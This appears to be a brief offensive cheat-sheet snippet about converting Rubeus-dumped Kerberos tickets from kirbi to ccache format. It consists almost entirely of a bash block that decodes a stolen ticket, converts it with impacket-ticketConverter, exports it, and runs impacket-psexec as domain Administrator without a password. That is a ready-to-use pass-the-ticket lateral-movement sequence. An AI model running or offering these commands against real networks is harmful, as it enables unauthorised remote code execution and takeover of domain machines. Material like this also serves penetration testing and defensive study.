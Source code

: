 ### convert kirbi to ccache
tickets printed by rubeus are base64 encoded kirbi files.
convert with `impacket-ticketConverter`.
```bash
base64 -d smb.ticket.b64 > smb.ticket.kirbi
impacket-ticketConverter smb.ticket.kirbi smb.ticket.ccache
export KRB5CCNAME=$(pwd)/smb.ticket.ccache
impacket-psexec domain.local/Administrator@FQDNMachine.domain.local -k -no-pass
```
